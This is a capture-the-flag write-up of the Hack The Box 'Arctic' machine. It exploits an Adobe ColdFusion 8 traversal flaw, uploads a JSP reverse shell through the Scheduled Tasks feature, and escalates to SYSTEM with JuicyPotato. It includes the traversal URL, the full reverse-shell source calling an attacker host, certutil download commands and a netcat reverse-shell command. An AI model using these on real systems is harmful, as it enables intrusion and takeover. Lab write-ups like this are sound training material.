









# HTB - Arctic

**IP Address:** `10.10.10.11`  
**OS:** Windows  
**Difficulty:** Easy  
**Tags:** #ColdFusion, #DirectoryTraversal, #LFI, #JSP-ReverseShell, #JuicyPotato, #Windows-PrivilegeEscalation  

---
## Synopsis

Arctic is an easy Windows machine vulnerable to multiple issues in **Adobe ColdFusion 8**.  
The attack path involves exploiting a **Directory Traversal / LFI** vulnerability to extract a password hash, cracking it to gain access to the ColdFusion administrator panel, and leveraging the **Scheduled Tasks** functionality to upload a malicious JSP webshell.  
Privilege escalation is achieved by abusing the **SeImpersonatePrivilege** with **JuicyPotato**, leading to SYSTEM access.

---
## Skills Required

- Basic web enumeration  
- Knowledge of ColdFusion vulnerabilities  
- Familiarity with msfvenom and reverse shells  
- Understanding of Windows privilege escalation techniques  

## Skills Learned

- Exploiting **Adobe ColdFusion** vulnerabilities  
- Creating a malicious JSP reverse shell payload with `msfvenom`  
- Abusing **Scheduled Tasks** in ColdFusion for code execution  
- Leveraging **JuicyPotato** to escalate privileges on Windows  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Verify if the host is alive using ICMP:

```bash
ping -c 1 10.10.10.11
```

  

The host responds, confirming it is reachable.

---
### 1.2 Port Scanning

Scan all TCP ports to identify running services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.11 -oG allPorts
```

- `-p-`: Scan all 65,535 ports  
- `--open`: Show only open ports  
- `-sS`: SYN scan  
- `--min-rate 5000`: Increase speed  
- `-Pn`: Skip host discovery (already confirmed alive)  
- `-oG`: Output in grepable format

  

Extract open ports from the result:

```bash
extractPorts allPorts
```
  

---
### 1.3 Targeted Scan

Run a deeper scan with service/version detection and default scripts:

```bash
nmap -sCV -p135,8500,49154 10.10.10.11 -oN targeted
```

- `-sC`: Run default NSE scripts  
- `-sV`: Detect service versions  
- `-oN`: Output in human-readable format  

Let's check the result:

```bash
cat targeted -l java
```

  

**Findings:**

| Port  | Service | Description                           |
|-------|---------|---------------------------------------|
| 135   | MS RPC  | Microsoft RPC Endpoint Mapper         |
| 8500  | HTTP    | Adobe ColdFusion web server           |
| 49154 | MS RPC  | Microsoft Windows RPC over high port  |

---
## 2. Web Enumeration

Navigating to `http://10.10.10.11:8500` reveals the **ColdFusion web interface**:

  

Deeper exploration shows the `CFIDE` directory:

  

Key findings:
- The **administrator** directory is exposed  
- Pages use the `.cfm` extension (ColdFusion Markup)

  

Testing authentication with random credentials shows encrypted values in the textbox: 

  

The encrypted values might represent a hash. We can reveal them by changing the HTML input type from `password` to `text` in the inspection view, allowing us to see the stored password hash:

  

This hash is not recognized by CrackStation, and after several attempts with Hashcat and John, it does not appear to correspond to a valid password.

---
## 3. Exploitation

### 3.1 Directory Traversal / LFI

Search for ColdFusion vulnerabilities:

```bash
searchsploit adobe coldfusion
```

  

The most promising is a **Directory Traversal** exploit:

```bash
searchsploit -x multiple/remote/14641.py
```

  

The vulnerability describes an LFI in the following path:

```bash
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en 
```

  

This reveals the **password hash**, which is then cracked with CrackStation:  

  

Password `happyday` obtained.

Login successful:  

  

At this point, we know that we have **directory listing capabilities**, as we can access the `CFIDE` directory. This implies that, at the system level, there must be a corresponding filesystem path for this directory. If we can identify that path, we may be able to upload a malicious file into the system.

---
### 3.2 Uploading a Malicious JSP Payload

Among the various options available in the web interface, some are particularly interesting. Let’s go through them one by one:

- **Mapping**  
    This section reveals system paths, and conveniently we can see the path for `CFIDE`, which originates from `wwwroot`:

  

- **Scheduled Tasks**  
    Another interesting section is **Scheduled Tasks**, which allows us to configure jobs that can download files from an external source and place them into a specified directory on the server. This feature can be abused to upload a malicious payload to the system.:

  

Currently, there are no tasks configured, but we can create one. This is particularly interesting because scheduled tasks will download the files we specify into a chosen directory. In other words, we can configure an exploit and let the scheduled task place it into the system.

Since ColdFusion supports **ASP**, **JSP**, and **PHP**, the most suitable choice here is to create a malicious **JSP** payload. We can generate a reverse shell using **msfvenom**.

```bash
msfvenom -l payloads | grep jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -o reverse.jsp
```

  

Payload generated: `reverse.jsp`:

``` bash
<%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>

<%
  class StreamConnector extends Thread
  {
    InputStream cb;
      OutputStream b0;
  
      StreamConnector( InputStream cb, OutputStream b0 )
      {
        this.cb = cb;
        this.b0 = b0;
      }
  
      public void run()
      {
        BufferedReader w6  = null;
        BufferedWriter eRg = null;
        try
        {
          w6  = new BufferedReader( new InputStreamReader( this.cb ) );
          eRg = new BufferedWriter( new OutputStreamWriter( this.b0 ) );
          char buffer[] = new char[8192];
          int length;
          while( ( length = w6.read( buffer, 0, buffer.length ) ) > 0 )
          {
            eRg.write( buffer, 0, length );
            eRg.flush();
          }
        } catch( Exception e ){}
        try
        {
          if( w6 != null )
            w6.close();
          if( eRg != null )
            eRg.close();
        } catch( Exception e ){}
      }
    }
  
    try
    {
      String ShellPath;
  if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
    ShellPath = new String("/bin/sh");
  } else {
    ShellPath = new String("cmd.exe");
  }
  
      Socket socket = new Socket( "10.10.14.7", 443 );
      Process process = Runtime.getRuntime().exec( ShellPath );
      ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
     ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();
} catch( Exception e ) {}
%>
```

We configure a scheduled task to upload it to:

```
C:\ColdFusion8\wwwroot\CFIDE\reverse.jsp
```

  

Serve the file with Python:

```bash
python3 -m http.server 80
```

Save and execute the task manually:  

  

Confirm the upload in our server:

  

And in directory:

  

Start a listener and trigger the reverse shell:

```bash
nc -nlvp 443
```

Clicking `reverse.jsp` spawns a shell.  

  

🏁 **User flag obtained**  

We are **tolis** user.

---
## 4. Privilege Escalation

Check tolis privileges:  

  

The account has **SeImpersonatePrivilege**, exploitable with **JuicyPotato**.

We upload the binaries:

```bash
certutil.exe -f -urlcache -split http://10.10.14.7:80/nc.exe
certutil.exe -f -urlcache -split http://10.10.14.7:80/JP.exe
```

  

Execution:

```bash
.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.7 4646"
```

  

We catch the connection on port 4646 and obtain SYSTEM:  

  

🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Port Scanning** → Identified Adobe ColdFusion on port 8500.  
2. **Directory Traversal / LFI** → Extracted and cracked admin password hash.  
3. **ColdFusion Panel Access** → Abused **Scheduled Tasks** to upload JSP reverse shell.  
4. **Privilege Escalation** → Used **JuicyPotato** to escalate from user to SYSTEM.  

---
## Defensive Recommendations

- Update Adobe ColdFusion to a **supported, patched version**.  
- Restrict access to the `/CFIDE/administrator` panel to internal networks only.  
- Avoid storing passwords in plaintext or weakly hashed formats.  
- Disable unnecessary privileges like **SeImpersonatePrivilege** on non-admin accounts.  
- Monitor scheduled tasks for suspicious uploads or reverse shells.  
